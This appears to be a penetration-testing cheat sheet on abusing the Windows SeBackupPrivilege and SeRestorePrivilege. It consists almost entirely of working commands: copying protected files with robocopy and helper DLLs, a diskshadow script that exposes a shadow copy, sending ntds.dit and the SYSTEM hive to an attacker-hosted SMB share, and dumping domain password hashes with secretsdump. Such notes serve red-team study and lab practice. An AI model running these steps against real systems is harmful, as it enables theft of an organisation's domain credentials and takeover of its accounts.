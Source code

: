 ```yaml
---
title: "SeBackupPrivilege/SeRestorePrivilege"
date: 2024-7-18
tags: ["SeBackupPrivilege", "SeRestorePrivilege", "privesc", "Windows", "Backup Operators", "diskshadow", "secretsdump"]
---
```


---
### Abuse #1: Robocopy

<div>

```powershell
# For example
robocopy /b <TARGET_DIR_PATH> C:\Windows\Tasks <TARGET_FILE>
```

</div>

<br>

---

### Abuse #2: Using helper dlls

<div>

```powershell
import-module .\SeBackupPrivilegeCmdLets.dll
```

```powershell
import-module .\SeBackupPrivilegeUtils.dll
```

```powershell
Copy-FileSeBackupPrivilege <TARGET_FILE_PATH> C:\ProgramData\<TARGET_FILE>
```

```powershell
# For example
Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit C:\ProgramData\ntds.dit
```

</div>

<small>*Ref: [SeBackupPrivilegeUtils.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll?raw=true)*</small>
<br>
<small>*Ref: [SeBackupPrivilegeCmdLets.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll?raw=true)*</small>

<br>

---

### Abuse #3: Diskshadow

#### 1. Create a .dsh file

<div>

```bash
set context persistent nowriters
set metadata C:\ProgramData\test.cab
set verbose on
add volume c: alias test
create
expose %test% x:
```

</div>

<br>

<div>

```bash
# Convert to dos format
unix2dos vss.dsh
```

</div>

#### 2. Run vss.dsh

<div>

```powershell
# Upload and run
diskshadow /s C:\ProgramData\vss.dsh
```

</div>

#### 3. Host a smb server (In Linux)

<div>

```bash
impacket-smbserver share . -smb2support
```

</div>

#### 4. Copy to local Linux

<div>

```bash
net use \\10.10.14.10\share
```

```bash
Copy-FileSeBackupPrivilege x:\Windows\ntds\ntds.dit \\10.10.14.10\share\ntds.dit
```

```bash
reg.exe save hklm\system \\10.10.14.10\share\system
```

</div>

#### 5. Secrets dump

<div>

```bash
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

</div>

<br>